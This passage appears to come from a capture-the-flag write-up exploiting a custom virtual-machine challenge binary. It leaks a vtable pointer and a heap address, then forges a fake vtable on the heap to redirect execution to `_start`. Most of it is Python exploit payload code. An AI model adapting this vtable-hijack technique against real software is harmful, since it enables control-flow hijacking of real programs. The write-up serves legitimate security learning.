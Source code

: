 ```py
payload += _stt()
```

with this we can also access data before `_mem`, which luckily contains a vtable pointer. this is called if we trigger an exception for example. given the vtable (pie) address and the heap address we’re able to retrieve, we can create a fake vtable on the heap and call whatever we want in the binary! I decided to call `_start`:

```py
######################## craft jumptable

payload += _jmp(0x56) # 0x54
payload += p16(0x6e) # 0x56

payload += p16(0x1008) # 0x58 # heap
payload += p16(0x100a) # 0x5a
payload += p16(0x100c) # 0x5c

payload += p16(0x0) # 0x5e # vtable
payload += p16(0x2) # 0x60
payload += p16(0x4) # 0x62

payload += p16(0x4000) # 0x64 # target
payload += p16(0x4002) # 0x66
payload += p16(0x4004) # 0x68

payload += p16(0x2020) # 0x6a # off _start
payload += p16(0x3ff8) # 0x6c # off heap
#

payload += _ldc(0x0) # 0x6e
payload += _sbc(0x6a)
payload += _tat()
payload += _lda(0x64)
payload += _stt()
payload += _lda(0x2)
payload += _tat()
payload += _lda(0x66)
payload += _stt()
payload += _lda(0x4)
payload += _tat()
payload += _lda(0x68)
payload += _stt()

payload += _ldc(0x58)
payload += _ldi()
payload += _adc(0x6c)
payload += _tat()
payload += _lda(0x5e)
payload += _stt()

payload += _lda(0x5a)
payload += _ldi()
payload += _tat()
payload += _lda(0x60)
payload += _stt()

payload += _lda(0x5c)
payload += _ldi()
payload += _tat()
payload += _lda(0x62)
payload += _stt()

payload += _ill()
```